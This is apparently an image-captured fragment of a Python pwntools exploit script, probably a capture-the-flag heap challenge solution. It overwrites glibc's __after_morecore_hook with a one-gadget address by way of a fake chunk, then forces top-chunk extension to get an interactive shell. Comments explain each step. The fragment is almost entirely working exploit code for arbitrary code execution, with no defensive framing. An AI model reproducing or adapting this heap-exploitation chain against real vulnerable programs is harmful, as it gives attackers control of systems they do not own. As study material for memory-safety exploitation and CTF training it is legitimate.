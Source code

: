```python=
distance = (libc.sym.__after_morecore_hook - 0x20) - elf.sym.user
amend_age(distance + 0xa1) # Leave just enough space in the remainder to request a small chunk overlapping the hook.


# =-=-=- OVERWRITE HOOK -=-=-=

# The next request is serviced by our fake chunk.
# Request a large chunk to bridge the gap between the fake chunk and the hook.
# We can't target the free hook this time because we can only write 8 bytes into chunk user data
# rather than 16, meaning we can't make up the gap between the start of a chunk overlapping
# the free hook and the free hook itself.
# The malloc hook gets clobbered too early by inline metadata, and we don't have enough control
# over __morecore arguments, nor does it satisfy any one-gadget constraints.
# However, we can trigger the after_morecore hook and it satisfies a one-gadget constraint.
malloc(distance, b"H"*8)

# The next request is serviced by the fake chunk's remainder and overlaps the after_morecore hook.
# Use it to overwrite the after_morecore hook with the address of a one-gadget.
malloc(0x88, pack(libc.address + 0x3ff5e)) # rax == NULL

# Request enough space to trigger top chunk extension. Remember that there's a 0x60000-sized chunk in
# the unsortedbin at this point so we need to request more than that, but no more than the mmap threshold.
malloc(0x60008, b"")

# =============================================================================

io.interactive()

```
